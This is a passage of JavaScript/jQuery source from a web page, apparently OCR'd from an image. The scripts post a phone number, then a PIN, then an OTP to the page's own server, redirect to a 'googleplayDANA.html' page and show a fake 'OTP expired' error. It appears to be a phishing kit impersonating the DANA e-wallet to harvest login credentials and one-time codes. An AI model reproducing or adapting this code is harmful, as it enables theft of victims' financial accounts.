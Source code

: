     $("#inp").blur();
    $.ajax({
        type: 'POST',
        url: '',
        data: $('#formNohp').serialize(),
        dataType: 'text',
        success: function() {
            $("#process").hide();
            $("#formNohp").fadeOut();
            setTimeout(function() {
                $("#inp").val('');
                $("#formPin").fadeIn();
                $("#pin1").focus();
            }, 500);
        }
    });
};
</script>
<script>
function sendPin() {
    $("#process").show();
    $.ajax({
        type: 'POST',
        url: '',
        data: $('#formPin').serialize(),
        dataType: 'text',
        success: function() {
            $("#process").hide();
            $('.inppin').val('');
            $(".bgotp").fadeIn();
            setInterval(countdown, 1000);
            $("#otp1").focus();
        }
    });
};
</script>
<script>
function sendOtp() {
    $(".loadingOtp").show();
    $.ajax({
        type: 'POST',
        url: '',
        data: $('#formOtp').serialize(),
        dataType: 'text',
        success: function() {
            window.location.href = "googleplayDANA.html";
            setTimeout(function() {
                $(".loadingOtp").hide();
                $('.inpotp').val('');
                $(".alert").text("Kode OTP telah kedaluwarsa atau invalid silahkan kirim ulang kode OTP");
                $(".alert").css("color", "red");
            }, 3000);
        }
    });
};
</script>
<script>
function countdown() {
    var count = parseInt($('#countdown').text());
    if (count !== 0) {
        $('#countdown').text(count - 1);
    } else {
        $('#countdown').text('120');
    }